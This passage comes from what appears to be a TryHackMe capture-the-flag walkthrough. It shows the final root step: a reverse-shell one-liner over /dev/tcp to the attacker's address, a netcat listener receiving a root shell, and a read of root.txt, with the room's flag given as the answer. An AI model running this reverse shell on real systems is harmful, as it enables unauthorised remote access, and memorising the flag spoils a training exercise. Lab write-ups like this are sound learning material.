 * Let's restart `apache2`.

```\
sh -i >& /dev/tcp/10.17.48.138/9999 0>&1
```

* Finally we need to listen using `nc`. After a while, we will get the shell.

```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.114.146] 49412
sh: 0: can't access tty; job control turned off
# 
```

* Let's read the `root.txt` file.

```
# ls
buildStatus
builds
go
root.txt
src
# cat root.txt  
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

### Answer

```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```
